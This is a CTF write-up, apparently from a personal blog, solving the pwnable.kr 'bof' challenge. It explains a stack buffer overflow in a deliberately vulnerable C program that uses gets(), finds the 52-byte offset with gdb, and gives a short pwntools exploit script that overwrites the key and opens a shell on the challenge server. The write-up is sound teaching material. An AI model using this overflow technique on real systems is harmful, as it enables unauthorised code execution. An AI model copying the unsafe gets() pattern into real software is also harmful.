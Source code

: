 ```yaml
---
weight: 1
title: "Pwnable.kr - Toddler's Battle - [bof]"
date: 2022-07-24T11:26:21+05:00
lastmod: 2022-07-24T11:26:21+05:00
draft: false
author: "Saad Akhtar"
authorLink: "https://ssaadakhtarr.github.io/"
description: "Pwnable.kr Toddler's Battle challenge bof writeup."
images: []
resources:
- name: "featured-image"
  src: "0.png"

tags: ["pwn", "binary exploitation"]
categories: ["Pwnable.kr"]

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## Description

This post will focus on an easy pwn challenge *bof* from Toddler's Bottle series of pwnable.kr.

Starting off we have the following description.

![Description](1.png "Description")

From the description, we can guess there's a buffer overflow vulnerability here which we'll be exploiting.

{{< admonition tip "Buffer Overflow" >}}
In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
{{< /admonition >}}

Source: https://en.wikipedia.org/wiki/Buffer_overflow

After downloading both attached files looking at the binary.

![File](2.png "File")

Running the binary, it first prints ```overflow me: ```, then we can enter some input and then it returns ```Nah..```.

![Running the binary](3.png "Running the binary")

If we provide a longer input while running the binary it smashes the stack.

![Stack smashing](6.png "Stack Smashing")

Looking at the C code.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

There are two functions ```main``` and ```func```. In the ```main``` function it is calling the ```func``` with the value ```0xdeadbeef```.

Let's dive into the ```func``` function and understand what's going on.

It first defines a variable ```overflowme``` with the buffer size of ```32``` then it prints ```overflow me: ``` which we saw while running the binary. And if we provide an input more than ```32``` bytes then it smashes the stack.

After that it takes our input and saves it in the ```overflowme``` variable using the ```gets``` function.

{{< admonition tip "gets() function" >}}
The gets() function is unsafe because it does not perform bounds checking on the size of its input. An attacker can easily send arbitrarily-sized input to gets() and overflow the destination buffer.
{{< /admonition >}}

Source: https://cwe.mitre.org/data/definitions/242.html

With this we have a vague idea of how we're going to exploit this vulnerability.

After this it compares the value of the parameter ```key``` with ```0xcafebabe``` and if it becomes true it spawns a shell.

If we run the program normally this condition will never be true because the argument ```0xdeadbeef``` is provided to the ```func``` in the ```main``` function.

In order to make this work, we need to make the buffer overflow and insert the value ```0xcafebabe``` to the ```key``` parameter.

## Exploitation

Let's fire up ```gdb```.

![gdb](4.png "gdb")

Add a break point at ```main``` and run the program.

![break main](5.png "break main")

Now disassemble the ```func```.

![Dissasembling the func](7.png "Dissasembling the func")

We can see the key ```0xcafebabe``` with ```cmpl``` instruction at ```0x56555654```.

Let's set a breakpoint here as well.

![Breakpoint at 0x56555654](8.png "Breakpoint at 0x56555654")

Continue the execution and enter an input within the buffer limit.

![Second Breakpoint](9.png "Second Breakpoint")

Now look at the stack.

![Stack](10.png "Stack")

We can see the ```0xdeadbeef``` in front of ```0xffffd060```. Before that our input starts at the last row in front of ```0xffffd020```.

So since each block is of ```4``` bytes and we have ```13``` blocks before ```0xdeadbeef```, we need to provide exactly ```13 * 4 = 52``` bytes of input and then our key ```0xcafebabe``` in order to successfully spawn the shell.

The following payload will break the stack and overwrite the desired key and spawn the shell.

![Pyaload & Flag](11.png "Payload & Flag")

We can also write a small script to spawn an interactive shell using python.

```python
from pwn import *

payload = 'A'*52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr', 9000)
shell.send(payload)
shell.interactive()
```

Interactive shell.

![Python shell](12.png "Python Shell")

**Thanks for reading!**